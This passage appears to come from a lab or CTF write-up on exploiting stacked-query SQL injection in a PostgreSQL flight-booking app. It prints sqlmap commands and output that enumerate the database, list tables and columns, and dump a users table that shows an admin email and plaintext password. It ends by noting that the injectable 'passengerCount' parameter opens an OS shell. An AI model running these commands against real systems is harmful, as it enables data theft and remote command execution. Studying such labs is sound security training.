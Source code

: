 ```bash
[17:36:33] [INFO] retrieved: public
[17:37:00] [WARNING] on PostgreSQL you'll need to use schema names for enumeration as the counterpart to database names on other DBMSes
available databases [1]:
[*] public
```
now we know its `stacked queries` we add the `--technique` to make it faster, and utilizing the `Database` to dump `--tables`
```bash
sqlmap -r postpost_req.txt --technique=S --risk=3 --level=5 --dbms=PostgreSQL -D public --tables --batch
[17:50:25] [INFO] retrieved: users
Database: public
[2 tables]
+---------+
| flights |
| users   |
+---------+
```
once we have the `--tables` we can dump the `--columns`
```bash
sqlmap -r postpost_req.txt --technique=S --risk=3 --level=5 --dbms=PostgreSQL -D public -T users --columns --batch
[17:50:25] [INFO] retrieved: users
Database: public
Table: users
[7 columns]
+-----------+------+
| Column    | Type |
+-----------+------+
| email     | text |
| firstname | text |
| isadmin   | text |
| lastname  | text |
| password  | text |
| user_id   | int4 |
| username  | text |
+-----------+------+
```
now we just dump the `--columns`
```bash
sqlmap -r postpost_req.txt --technique=S --risk=3 --level=5 --dbms=PostgreSQL -D public -T users -C email,firstname,isadmin,lastname,password,user_id,username --dump --batch
Database: public
Table: users
[3 entries]
+-------------------+---------------+---------+---------------+----------------+---------+----------+
| email             | firstname     | isadmin | lastname      | password       | user_id | username |
+-------------------+---------------+---------+---------------+----------------+---------+----------+
| admin@thinc.local | firehawkAdmin | true    | firehawkAdmin | hufeh9h123h4@@ | 1       | admin    |
| testada           | <blank>       | <blank> | <blank>       | <blank>        | <blank> | <blank>  |
| <blank>           | <blank>       | <blank> | <blank>       | <blank>        | <blank> | <blank>  |
+-------------------+---------------+---------+---------------+----------------+---------+----------+
```
we can get a `os-shell` now that we know the exploitable parameter is `passengerCount`
- can up the `v` to `v3` to get actual feedback, `os-shell` is known to take a long time before actually executing your command